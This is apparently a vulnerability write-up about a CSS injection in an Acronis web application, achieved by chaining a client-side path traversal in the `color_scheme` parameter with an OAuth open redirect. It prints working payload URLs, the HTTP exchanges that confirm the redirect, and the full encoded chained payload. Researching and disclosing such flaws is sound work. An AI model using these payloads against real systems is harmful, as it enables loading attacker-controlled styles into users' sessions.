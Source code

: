 In an Acronis web application, Medi discovered a CSS Injection vulnerability through a Client-Side Path Traversal combined with an Open Redirect. The JavaScript function `makeCssLink()` constructed a URL for a CSS file based on a user-controllable `color_scheme` parameter, which was not sanitized. By manipulating the parameter, an attacker could perform a path traversal to load malicious CSS files from an external domain

If we go to the **main page** which is `https://mc-beta-cloud.acronis.com/mc/?color_scheme=PARAMETER` with the **color\_scheme** GET parameter found in the javascript, we can see by reading the code that it will get the parameter value and make a GET request concatenating the previous value to a Relative URL where to load the CSS file, in this case **theme.{COLOR\_SCHEME\_PARAMETER}.css**.

For the previous URL the CSS requested will be `https://mc-beta-cloud.acronis.com/mc/theme.PARAMETER.css`.

For example, if you go to:

`https://mc-beta-cloud.acronis.com/mc/?color_scheme=%2F..%2F..%2FPARAMETER`

\
You will notice the CSS is loaded from `https://mc-beta-cloud.acronis.com/PARAMETER.css`, confirming the **Client Side Path Traversal** issue.

The Reasearcher compinesd it with  open redirect he discovered in state parameter&#x20;

```http
GET /api/2/idp/authorize/?client_id={CLIENT-ID}&redirect_uri=%2Fhci%2Fcallback&response_type=code&scope=openid&state=http://localhost&nonce=bhgjuvrrvpwauibleqhvfqat HTTP/1.1
Host: ...

HTTP/1.1 302 Found
Location: /hci/callback=code={CODE}&state=http://localhost
-------------------------------------------------------------
GET /hci/callback=code={CODE}&state=http://localhost HTTP/1.1
Host: ...

HTTP/1.1 302 Found
Location: http://localhost

Open Redirect confirmed
```

To combine the two techniques, you can set the `color_scheme` GET parameter to the following URL-encoded value:

```http
%2F..%2F..%2F..%2Fapi%2F2%2Fidp%2Fauthorize%2F%3Fclient_id%3D
fb2bf44e-ac14-444a-b2a9-e5e81fe73b80%26redirect_uri%3D
%252Fhci%252Fcallback%26response_type%3Dcode%26
scope%3Dopenid%26state%3Dhttp%253A%252F%252Flocalhost%252Fcss%252Fcore.css%26
nonce%3Dbhgjuvrrvpwauibleqhvfqat
```

For clarity, decode this parameter as follows:

```http
/../../../api/2/idp/authorize/?client_id={CLIENT-ID}&
redirect_uri=%2Fhci%2Fcallback&response_type=code&scope=openid
&state=http%3A%2F%2Flocalhost%2Fcss%2Fcore.css&nonce=bhgjuvrrvpwauibleqhvfqat
```
